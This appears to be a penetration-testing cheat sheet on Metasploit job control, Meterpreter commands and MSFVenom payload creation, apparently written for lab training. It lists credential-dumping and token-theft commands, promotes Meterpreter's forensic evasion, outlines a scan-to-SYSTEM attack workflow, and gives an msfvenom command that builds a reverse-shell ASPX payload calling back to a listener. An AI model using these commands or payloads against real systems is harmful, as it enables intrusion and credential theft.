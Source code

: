 ## Jobs 🏃‍♂️
- Background tasks that continue running even if sessions die 🔄
- Useful when needing to free up ports for other modules 🔌
- View jobs: `jobs -l` 👀
- Kill specific job: `jobs -k [job_id]` ☠️
- Kill all jobs: `jobs -K` 💥
- Run exploit as background job: `exploit -j` 🏎️

## Meterpreter 🦾
- Advanced multi-functional payload 💪
- Uses DLL injection for stable connections 💉
- Resides entirely in memory (leaves no traces on hard drive) 👻
- Difficult to detect with conventional forensic techniques 🕵️‍♀️

### Meterpreter Features 🌟
- **Stealthy** 🥷: Resides in memory, no disk writing, can migrate between processes
- **Powerful** 💪: Uses channelized communication with AES encryption
- **Extensible** 🧩: Features can be added at runtime without rebuilding

### Key Meterpreter Commands 🎮
- `help`: Shows available commands 📚
- `getuid`: Display current user 👤
- `hashdump`: Extract password hashes 🔑
- `lsa_dump_sam`: Dump Security Account Manager database 📂
- `lsa_dump_secrets`: Dump LSA secrets 🔐
- `ps`: List running processes 📊
- `migrate [PID]`: Move to different process 🦅
- `steal_token [PID]`: Impersonate another user 🎭
- `background`/`bg`: Background current session ⏪

### Practical Usage Example 🎯
1. Scan target with nmap 🔍
2. Identify vulnerable service (e.g., IIS 6.0) 🎯
3. Search for and configure appropriate exploit ⚙️
4. Execute and receive Meterpreter shell 🐚
5. Run local exploit suggester to find privilege escalation paths 🪜
6. Execute privilege escalation exploit to gain SYSTEM access 👑

## MSFVenom 🐍
- Successor of MSFPayload and MSFEncode 👑
- Creates customized payloads for different architectures and platforms 🏗️
- Can encode shellcode to avoid bad characters and improve stability 🧬

### Creating Payloads 💣
- Syntax: `msfvenom -p [payload] [options]` ⌨️
- Example: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx` 📝
- Need to set up listener with multi/handler to catch connections 🎣
